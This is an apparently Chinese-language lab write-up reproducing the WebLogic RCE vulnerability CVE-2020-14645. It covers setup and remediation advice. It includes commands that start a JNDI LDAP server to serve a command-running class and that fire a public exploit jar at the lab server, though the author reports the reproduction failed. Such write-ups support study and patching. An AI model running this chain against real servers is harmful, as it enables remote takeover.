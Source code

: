 ```yaml
---
title: CVE-2020-14645  Weblogic远程代码执行漏洞复现
categories:
  - 漏洞复现
tags:
  - 漏洞
  - weblogic
  - 漏洞复现
  - CVE-2020-14645
  - JNDI
author: Chace
date: 


---
```


## 漏洞介绍

今日，Oracle官方发布WebLogic安全更新，其中修复了一个CVSS评分为9.8的严重漏洞(CVE-2020-14645)，该漏洞通过T3协议进行利用，攻击者可以实现远程代码执行，进而控制服务器。由于漏洞利用复杂度低，风险高，建议尽快修复。

WebLogic是美国Oracle公司出品的一个application server，是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。Oracle WebLogic Server存在远程代码执行漏洞。

攻击者可利用该漏洞实现远程代码执行。该反序列化的gadget存在与coherence包中。编号CVE-2020-14645。

构造chain类似于common-collection的chain，可以照葫芦画瓢。

mvn 好像不能下载coherence包，很奇怪，直接下jar包就行。

反序列化的对象，通过t3发送给weblogic即可。所以，这个只是生成payload的工具。

<!--more-->

## 影响范围

- Oracle Oracle WebLogic Server 10.3.6.0.0
- Oracle WebLogic Server 12.2.1.4.0
- Oracle WebLogic Server 12.2.1.3.0
- Oracle WebLogic Server 12.1.3.0.0
- Oracle WebLogic Server 14.1.1.0.0

## 环境搭建

WebLogic 12.2.1.4官方下载链接:

```http
https://download.oracle.com/otn/nt/middleware/12c/122140/fmw_12.2.1.4.0_wls_lite_Disk1_1of1.zip
```

下载JDK 6u211/7u201/8u191任意版本并配置环境变量

```
JDK8u191
下载地址：https://pan.baidu.com/s/1cCtSolwsZCmL7xN6orTjTw
提取码：nmi1
```

用管理员权限打开CMD命令

```
java -jar fmw_12.2.1.4.0_wls_lite_generic.jar
```

全部点击下一步，勾选自主启动配置向导选项

![](1.png)

创建新域并勾选所有模板，点击下一步至安装完成

![](2.png)

安装成功后，跳到base_domain目录下

C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain

运行startWebLogic.cmd

![](3.png)

可访问7001端口（http://192.168.1.111:7001/console/login/LoginForm.jsp），说明环境部署成功

![](4.png)

## 漏洞复现

JNDI工具下载地址

https://github.com/welk1n/JNDI-Injection-Exploit

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [address]
```

使用JNDI工具搭建LDAP和HTTP服务，注意不能占用8180/1099/1389三个端口，修改要执行的命令后回车，会同时启动LDAP/RMI/HTTP三种服务，并且自动编译好带命令的class文件

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 192.168.1.236
```

![](5.png)



使用CVE-2020-14645漏洞验证工具

https://github.com/DSO-Lab/Weblogic_CVE-2020-14645


```
java -jar CVE-2020-14645.jar LDAP_IP:LDAP_PORT/#Exploit http://192.168.1.111:7001
```

输入JNDI工具搭建LDAP地址和端口

```
java -jar CVE-2020-14645.jar 192.168.1.236:1389/mcq0vt http://192.168.1.111:7001
```

![](6.png)



输入命令请求LDAP服务，执行自动编译的class文件，成功弹出计算器（失败，无法弹出计算器）

![](7.png)

PS：java版本<jdk 6u211/7u201/8u191，我用的是8u191，最后没有复现成功，通过本地测试发现报错如下：

![](8.png)

​	原因是在更高版本的JDK环境中trustURLCodebase变量为false，限制了远程类的加载。


## 修复建议

### 1、官方修复方案

Oracle已经发布补丁修复了上述漏洞，请用户参考官方通告及时下载受影响产品更新补丁，并参照补丁安装包中的readme文件进行安装更新，以保证长期有效的防护。

   注：Oracle官方补丁需要用户持有正版软件的许可账号，使用该账号登陆[**https://support.oracle.com**](https://support.oracle.com/)后，可以下载最新补丁。

### 2、临时解决方案

用户可通过控制T3协议的访问来临时阻断针对这些漏洞的攻击。操作方法如下：

      1. 进入WebLogic控制台，在base_domain的配置页面中，进入“安全”选项卡页面，点击“筛选器”，进入连接筛选器配置。
      2. 在连接筛选器中输入：weblogic.security.net.ConnectionFilterImpl，参考以下写法，在连接筛选器规则中配置符合企业实际情况的规则：

   ```
   127.0.0.1 * * allow t3 t3s
   本机IP * * allow t3 t3s
   允许访问的IP  * * allow t3 t3s  
   * * * deny t3 t3s
   ```

      3. 保存后若规则未生效，建议重新启动WebLogic服务（重启WebLogic服务会导致业务中断，建议相关人员评估风险后，再进行操作）。

### 3、禁用IIOP协议。

可通过关闭 IIOP 协议对此漏洞进行缓解。操作如下： 

1. 在 Weblogic 控制台中，选择“服务”->”AdminServer”->”协议”，取消“启用 IIOP”的勾选。

2. 并重启 Weblogic 项目，使配置生效。